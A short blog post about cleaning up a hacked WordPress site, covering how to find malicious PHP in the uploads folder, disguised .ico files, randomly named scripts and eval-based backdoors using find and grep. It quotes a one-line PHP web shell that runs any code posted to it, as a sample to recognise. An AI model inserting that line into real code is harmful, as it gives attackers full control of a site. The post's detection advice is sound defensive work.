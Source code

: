```yaml
---
layout: post
title: Finding infected files in WordPress
ctime: 2017-07-05

---
```


The best thing to do is to clean your database, delete your site and re-install it.

- Keep things updated
- Don't install themes from _warez_ sites, duh. If you don't pay for it, you'll end up paying for it, only worse..
- Disable any files that you find suspicious. This can be done simply by add a `.OFF` at the end of the file name, after the extension. For example `favicon_de19d8.ico.OFF`. This will stop the execution of that particular file
- Find that breach! No use in cleaning up the site if the breach isn't fixed, the hacker will just breach again and re-inject the malicious code

#### uploads
The `uploads` directory is *writable*. Plus it usually has thousands of files, you rarely check them. It is a great place to hide malicious code..

```bash
find wp-content/uploads -name "*.php" -print
```

#### .ico files

If you have files like these, chances are they are infected. 

```
./wp-admin/network/favicon_de19d8.ico
./wp-content/wptouch-data/extensions/favicon_43e3fd.ico
```

If you open them in a text editor, you'll find code inside. Delete these files.

#### .eval()

Code that looks like this is basically a backdoor that allows any kind of code to be executed. It's a _Code Inejction Attack_

```php
<?php @eval($_POST['@01']);?>
```
Any file that has the `.eval()` code is malicious. It **let's the hacker run any kind of code, and add, update and delete any kind of data**. `.eval()` is dangerous, insecure, and highly discouraged. Some plugins might still use it, you should not use those plugins.

Find files having `eval()` code with

```bash
egrep -lri '@eval' .
```

```
./public_html/wp-content/themes/business-one-page/404.php
```

#### files with weird, non-sensical names

For example:

```
./ceshi.html
./ceshi.php
./d6c0cf.php
./db9d04.php
./eaiubnv2.php
./wp-admin/network/favicon_de19d8.ico
./wp-admin/user/kqqplowi.php
./wp-content/uploads/2017/04/wkvlkxcf.php
./wp-content/themes/signature-wp/assets/djhdlqne.php
./wp-content/hk9eJ/lyty.php
./wp-content/wptouch-data/extensions/favicon_43e3fd.ico
./wp-content/plugins/js_composer/vendor/composer/css/c82987
```


#### find all files on the server with the word 'xxx~hacker' in them

```bash
sudo egrep -irl 'xxx~hacker' /
```

```
/var/cpanel/webtemplates/hostmark/english/suspended.tmpl
/var/cpanel/webtemplates/hostmark/english/default.tmpl
```
Links
---
- [How to Find a Backdoor in a Hacked WordPress Site and Fix It](http://www.wpbeginner.com/wp-tutorials/how-to-find-a-backdoor-in-a-hacked-wordpress-site-and-fix-it/)